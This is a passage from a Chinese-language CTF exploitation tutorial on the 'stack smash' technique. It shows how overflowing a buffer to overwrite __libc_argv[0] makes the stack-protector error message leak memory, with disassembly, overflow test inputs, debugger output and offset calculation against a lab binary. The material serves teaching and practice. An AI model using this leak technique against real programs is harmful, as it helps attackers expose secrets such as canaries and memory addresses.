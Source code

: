 可以发现成功控制了__libc_argv[0]的值，打印出来了想要的信息。综上所述，这一种基于报错类的栈保护，恰恰是可以报错，所以存在stack smash的绕过方法。 
 
### stack smash原理 
调试fortify_fail 函数，找到libc_message函数的部分汇编代码： 
 
 ```java 
  0x7ffff7b331d0 <__fortify_fail+16>    mov    rax, qword ptr [rip + 0x2a5121] <0x7ffff7dd82f8>


  ``` 
  
然后获取[rip+0x2a5121]的值，也就是存放__libc_argv[0]的内存单元。 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=ae049e09-2ea3-4143-a7d4-4971a19aec22.png  '栈溢出技巧（下）') 
对于这个例子来说，输入的长度达到0xf8字节，即可开始覆盖__libc_argv[0]的值，从而打印出来需要的信息，构造就相应的payload就行泄漏想要的内容，比如存储的flag内容、开启PIE的加载基址、canary的值等等。在一节里面，拿刚才的例子再做一个有意思的小实验： 
 
 ```java 
  pwn@pwn-PC:~/Desktop$ python -c 'print "A"*247' | ./a.out
*** stack smashing detected ***: ./a.out terminated
段错误
pwn@pwn-PC:~/Desktop$ python -c 'print "A"*248' | ./a.out
*** stack smashing detected ***:  terminated
段错误
pwn@pwn-PC:~/Desktop$ python -c 'print "A"*249' | ./a.out
*** stack smashing detected ***:  terminated
段错误
pwn@pwn-PC:~/Desktop$ python -c 'print "A"*250' | ./a.out
段错误


  ``` 
  
buf(0x7fffffffcd00)和__libc_argv0处相距0xf8（也就是说第249位会覆盖到0x7fffffffcdf8），那么输入247、248、249、250会出现三种情况，分别看一下对应情况下0x7fffffffcdf8的值： 
 
 ```java 
  达不到覆盖的距离：    
21:0108│      0x7fffffffcdf8 —▸ 0x7fffffffd0d2 ◂— '/home/pwn/Desktop/a.out'
刚好达到覆盖的距离，读入\x00刚好覆盖到：
21:0108│      0x7fffffffcdf8 —▸ 0x7fffffffd000 ◂— 9 /* '\t' */
覆盖形成的地址在内存中可以找到：
21:0108│      0x7fffffffcdf8 —▸ 0x7fffffff0041 ◂— 0x0
Cannot access memory at address 0x7fffff004141：
21:0108│      0x7fffffffcdf8 ◂— 0x7fffff004141 /* 'AA' */  


  ``` 
  
因此在尝试寻找offset的时候，选择offset = 248。当然尝试的办法太慢了，直接gdb调试下断点，类似于例子中的distance 0x7fffffffcd00 0x7fffffffcdf8即可。 
 
### 题目一 
2015 年 32C3 CTF readme题目分析如下： 
 